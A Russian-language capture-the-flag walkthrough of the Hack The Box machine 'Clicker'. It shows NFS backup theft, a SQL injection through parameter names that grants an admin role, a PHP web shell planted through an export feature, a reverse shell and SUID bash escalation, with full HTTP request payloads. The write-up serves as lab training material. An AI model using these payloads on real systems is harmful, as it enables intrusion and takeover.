# Target : 10.10.11.232 aka clicker.htb

# Reconnaissance (aka intelligence)

## 1. Scan ports
```sh
└─$ nmap -p 22,80,111,2049,8081 -sV -A 10.10.11.232
Starting Nmap 7.94 ( https://nmap.org ) at 2024-01-05 13:41 EST
Nmap scan report for clicker.htb (10.10.11.232)
Host is up (0.069s latency).

PORT     STATE SERVICE          VERSION
22/tcp   open  ssh              OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 89:d7:39:34:58:a0:ea:a1:db:c1:3d:14:ec:5d:5a:92 (ECDSA)
|_  256 b4:da:8d:af:65:9c:bb:f0:71:d5:13:50:ed:d8:11:30 (ED25519)
80/tcp   open  http             Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Clicker - The Game
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.52 (Ubuntu)
111/tcp  open  rpcbind          2-4 (RPC #100000)
2049/tcp open  nfs              3-4 (RPC #100003)
8081/tcp open  blackice-icecap?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 105.89 seconds

```

## 2. Check 80 port in browser



## 3. Enumerate directories and files

```sh
└─$ gobuster dir -u http://clicker.htb -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://clicker.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 276]
/.hta                 (Status: 403) [Size: 276]
/.htpasswd            (Status: 403) [Size: 276]
/admin.php            (Status: 302) [Size: 0] [--> /index.php]
/assets               (Status: 301) [Size: 311] [--> http://clicker.htb/assets/]
/exports              (Status: 301) [Size: 312] [--> http://clicker.htb/exports/]
/index.php            (Status: 200) [Size: 2984]
/info.php             (Status: 200) [Size: 3343]
/server-status        (Status: 403) [Size: 276]
Progress: 4723 / 4724 (99.98%)
===============================================================
Finished
===============================================================

```

Интересный URL-адрес **/admin.php**! Давайте помнить об этом!

Также мы видим возможность зарегистрироваться на сайте.
Давай попробуем!



Мы также видим навигацию сайта **«Профиль»**, **«Выход»** и **«Играть»**.
Попробуем нажать кнопку **«Play»** и посмотрим, что там



Это какая-то игра.
Попробуем перехватить запрос и посмотреть, что там отправляют.



Отправка двух параметров кликов и уровня. Попробуем увеличить оба параметра. Видим, что запрос прошел!

Зайдем в профиль и посмотрим, изменились ли параметры с нашими значениями. Да, это меняется в зависимости от нашего значения



Дальнейшие действия и попытки пофазить эти параметры не увенчались успехом, посмотрим другие сервисы на других портах

## 4. NFS service scan

Чтобы узнать, какие папки на сервере NFS открыты для просмотра воспользуемся утилитой showmount

```
showmount -e clicker.htb
Export list for clicker.htb:
/mnt/backups *
```
Видим, что там есть папка backups

пробуем ее смонтировать себе локально в папку /mnt/new_backup (предварительно ее создав)

```sh
sudo mount -t nfs 10.10.11.232:/mnt/backups /mnt/new_back -o nolock 
```


И видим там архив, а по названию примерно можем предположить содержимое - это бекап сайта! Бинго! Выкачиваем себе, разархивируем
и заходим смотреть исходники.

## 5. Source code research



Посмотрим исходники уже известных урлов, например **/play.php** **/admin.php** и **register.php**

**/register.php** - скрипт регистрации, в котором форма логина и пароля отправляется на урл /create_player.php
**/admin.php** - скрипт админки, в котором по всей видимости какая-то логика по сохранению отчета в разных видах, а так же предоставление
победителей топ-10. В глаза бросается кусок кода, который проверяет сессию на права администратора

```php
<?php
session_start();
include_once("db_utils.php");

if ($_SESSION["ROLE"] != "Admin") {
  header('Location: /index.php');
  die;
}
?>
```
И в этом скрипте так же есть логика сохранения отчета по топ-10 игрокам в файл, форма отправляется на урл **/export.php**
Посмотрев этот скрипт **export.php** видно, что там можно сохранить в трех расширениях **txt**, **json** и **html**. Сразу бросается в глаза то,
что нет проверки расширения, которое приходит от скрипта **admin.php**.
Далее видим, что в этот скрипт, а значит в результирующий отчет попадает некие параметры пользователя такие как: **nickname**, **clicks**, **level**.

**/play.php** - скрипт самой игры кликера, в которой за клики покупаешь себе уровень. Просмотрев код внимательно и\или вспомнив, что мы перехватывали и
апдейтили этот запрос бурпом можем перейти к скрипту, куда отправляется эти "клики" и "уровень".

```js
      function saveAndClose() {
        window.location.replace("/save_game.php?clicks="+money+"&level="+update_level);
      }
```

/save_game.php - скрипт, в котором происходит логика сохранения изменений в базу данных, в котором в свою очередь импортируется скрипт db_utils.php, 
в котором находятся все функции для работы с базой данных.

```php
<?php
session_start();
include_once("db_utils.php");

if (isset($_SESSION['PLAYER']) && $_SESSION['PLAYER'] != "") {
	$args = [];
	foreach($_GET as $key=>$value) {
		if (strtolower($key) === 'role') {
			// prevent malicious users to modify role
			header('Location: /index.php?err=Malicious activity detected!');
			die;
		}
		$args[$key] = $value;
	}
	save_profile($_SESSION['PLAYER'], $_GET);
	// update session info
	$_SESSION['CLICKS'] = $_GET['clicks'];
	$_SESSION['LEVEL'] = $_GET['level'];
	header('Location: /index.php?msg=Game has been saved!');
	
}
?>
```

Видим проверку сессии пользователя, так же видим проверку на параметр role, видимо для защиты повышения привилегий через отправку GET-параметра role (из создания пользователя и db_utils.php мы
знаем, что по умолчанию будет роль User). Далее происходит вызов функции **save_profile()** в которую передается имя пользователя и весь массив из GET-параметров. Перейдем к изучению тела этой
функции в файле **db_utils.php**

```php
function save_profile($player, $args) {
	global $pdo;
  	$params = ["player"=>$player];
	$setStr = "";
  	foreach ($args as $key => $value) {
    		$setStr .= $key . "=" . $pdo->quote($value) . ",";
	}
  	$setStr = rtrim($setStr, ",");
  	$stmt = $pdo->prepare("UPDATE players SET $setStr WHERE username = :player");
  	$stmt -> execute($params);
}
```

функция **save_profile()** - принимает пользователя в строке, делает массив params c ключом player и значением имя пользователя и массив из GET запроса, а потом
массив прогоняет по циклу ключей и значений и конкатенирует строку вида ключ='значение', и без проверки отправляет данные в запрос на обновление данных пользователя.

Запустим функцию в интерпретаторе убрав лишний кусок **$pdo->quote($value)** мы просто сконкатенируем кавычки вместо этой функции

```php
<?php
function save_profile($player, $args) {
    $params = ["player" => $player];
    $setStr = "";
    foreach ($args as $key => $value) {
        $setStr .= $key . "=" . "'" . $value . "'" . ","; // Заменил "123" на $value
    }
  
   // echo $setStr;
    $setStr = rtrim($setStr, ",");
    echo $setStr;
}

$result = ["clicks" => 123, "level" => "123"]; 
save_profile('t1n0x', $result)

>>>clicks='123',level='123'
```
Получим, что наша теория оправдалась. Явный вектор внедрения кода, но напрямую просунуть наш эмулируемый GET-массив $result параметром role=Admin не получится (роль администратора
мы знаем уже из того как создается юзер и admin.php), на предыдущих шагах мы увидели, что GET параметр проверяется на совпадение.

После долгих попыток пофазить разные методы и параметры пришел к выводу, что мы можем забайпасить проверку на параметр role и протолкнуть пейлоад просто передав его прямо в строке параметра.
То есть нам нужно прямо в запрос UPDATE протолкнуть строку через запятую, чтобы мы смогли обновить параметр role с User (как мы знаем из create_player.php) на Admin и запрос будет выглядеть так:
```sh
clicks='123',level='123',role=admin,password='password123'
```
Здесь мы байпасим проверку role просто создав GET-параметр role=admin,password  и значением 'password123' (лучше хеш пароля)

# Exploitation

Пробуем создать пейлоад для повышения привилегий до админа данного сайта и после долгих попыток, энкода в urlencode получаем работающий пейлоад:
первым пейлоадом мы сумели поменять пароль, но почему-то роль не изменялась, поэтому вот таким получилось и изменить пароль, сформировав хеш sha256 и протолкнув role=Admin

```sh
GET /save_game.php?clicks=7&level=1&password%3d%27ef92b778bafe771e89245b89ecbc08a44a4e166c06659911881f383d4473e94f%27%2crole=Admin HTTP/1.1
Host: clicker.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://clicker.htb/play.php
Cookie: PHPSESSID=1eu61mgc7vb29k0itll808e09g
Upgrade-Insecure-Requests: 1

```

Пробуем разлогиниться и попытаемся снова войти. Да, мы администратор и появился доступ к **admin.php**



Заходим и видим интерфейс выгрузки статистики.

Выше мы предположили, что там нет фильтрации и проверки расширения с которым сохраняется статистика в папку /exports и так же там попадают 3 параметра:
nickname, clicks и level, что мы можем видеть на скриншоте, сформировав сам запрос:



Попробуем перехватить сам запрос на формирование отчета и подменим расширение на php



И действительно видим php расширение не фильтруется. Давайте приступим к просмотру дальнейшей логики. В отчет попадают nickname, clicks и level. А мы уже научились
выше переписывать значения внедряя другие параметры в UPDATE команду sql и тем самым поменяли пароль и повысились до админа. Здесь же мы можем попробовать просунуть код
php в параметре, чтобы код исполнился после того как мы его экспортируем с расширением php. Но в click и level мы не сможем записать ничего, по скольку это integer в базе
и будет аналог value error в sql, поэтому у нас остается только nickname. А этот параметр оказывается строка и нигде не проверяется. Идеальный кандидат. Приступаем к написанию
пейлоада и после долгих попыток, получаем заветное исполнение кода:

```sh
GET /save_game.php?clicks=12200000&level=30000&nickname=%3c%3fphp+system%28%24%5fGET%5b%27cmd%27%5d%29%3b+%3f%3e HTTP/1.1
Host: clicker.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://clicker.htb/play.php
Cookie: PHPSESSID=1eu61mgc7vb29k0itll808e09g
Upgrade-Insecure-Requests: 1

```



Видим, что в поле nickname протащился php код, формируем отчет и перехватываем его, заменив расширение на php и получаем файл с веб-шеллом



И проверяем команду введя запрос ?cmd=cat+/etc/passwd проверив, что команды исполняются в веб-шелле. Пора приступать к получению оболочки.

Делаем реверс-шелл.

Слушаем реверс порт 9001 командой **nc -lvnp 9001** и развернем свой веб-сервер на питоне для скачивания стейджа(мне так удобнее + иногда напрямую команда не отрабатывает) **python3 -m http.server**

# Postexploitation and privilage escalation

Отправляем запрос:



И получаем реверс шелл и сразу осматриваемся, пытаемся зайти в папку юзера jack за флагом, но туда не пускает, не хватает прав пробуем запустить linpeas подложив его в наш веб-сервер:



Далее наблюдаем "выхлоп" линписа и смотрим интересные найденные скрипты, команды, креды, лишние права... Бинго! suid на /usr/bin/bash это сразу победа!



Повышаемся до группы root воспользовавшись удобной техникой с  gtfobins для bash https://gtfobins.github.io/gtfobins/bash/#suid

```bash
/usr/bin/bash -p
```



И мы получаем рута и юзера сразу одной командой!